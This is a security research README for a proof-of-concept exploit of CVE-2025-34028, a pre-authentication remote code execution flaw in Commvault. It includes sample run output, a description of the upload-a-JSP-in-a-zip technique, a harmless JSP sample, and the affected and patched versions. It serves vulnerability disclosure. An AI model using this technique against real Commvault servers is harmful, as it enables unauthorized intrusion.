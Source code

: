 
# CVE-2025-34028
A Commvault Pre-Authenticated Remote Code Execution Proof of Concept
 
See our [blog post](https://labs.watchtowr.com/) for technical details

# Detection in Action


```
 python watchtowr-vs-commvault-rce-CVE-2025-34028.py --url https://192.168.1.1
                         __         ___  ___________                   
         __  _  ______ _/  |__ ____ |  |_\__    ____\____  _  ________ 
         \ \/ \/ \__  \    ___/ ___\|  |  \|    | /  _ \ \/ \/ \_  __ \
          \     / / __ \|  | \  \___|   Y  |    |(  <_> \     / |  | \/
           \/\_/ (____  |__|  \___  |___|__|__  | \__  / \/\_/  |__|   
                                  \/          \/     \/                            
          
        watchtowr-vs-commvault-rce-CVE-2025-34028.py
        (*) Commvault Unauthenticated Remote Code Execution (CVE-2025-34028) POC by watchTowr
        
          - Sonny , watchTowr (sonny@watchTowr.com)

        CVEs: [CVE-2025-34028]
        
[*] Targeting https://192.168.1.1
[*] Verifying presence of Commvault
[*] Uploading to  /reports/MetricsUpload/2GfMIJdK/
[*] Fetching System User from  https://192.168.1.1/reports/MetricsUpload/2GfMIJdK/.tmp/dist-cc/dist-cc/shell.jsp
[*] System User EC2XXX-XXXXXXX$

```

# Description

This script is a proof of concept for CVE-2025-34028, for Commvault Web Interfaces. By uploading a zip file containing a code execution .jsp file, the zip file is uploaded to a public facing directory and the system user is detailed within the response. More details are described within our [blog post] (https://labs.watchtowr.com/).

# Note
The PoC script uses a hardcoded zip file containing the following files:
* /ccApp/index.html
* shell.jsp

Shell.jsp contents:

```
<%@ page import="java.util.*" %>
<html>
<body>
  <h3>System Information</h3>
  <p>Current User: <%= System.getProperty("user.name") %></p>
</body>
</html>
```

# Affected Versions

* Commvault Windows and Linux 11.38.0 - 11.38.19

# Remediated Versions

* Commvault Windows and Linux 11.38.20 as of April 10, 2025
* Commvault Windows and Linux 11.38.25 as of April 10, 2025

More details at [Commvault Advisory](https://documentation.commvault.com/securityadvisories/CV_2025_04_1.html)


# Follow [watchTowr](https://watchTowr.com) Labs

For the latest security research follow the [watchTowr](https://watchTowr.com) Labs Team 

- https://labs.watchtowr.com/
- https://x.com/watchtowrcyber
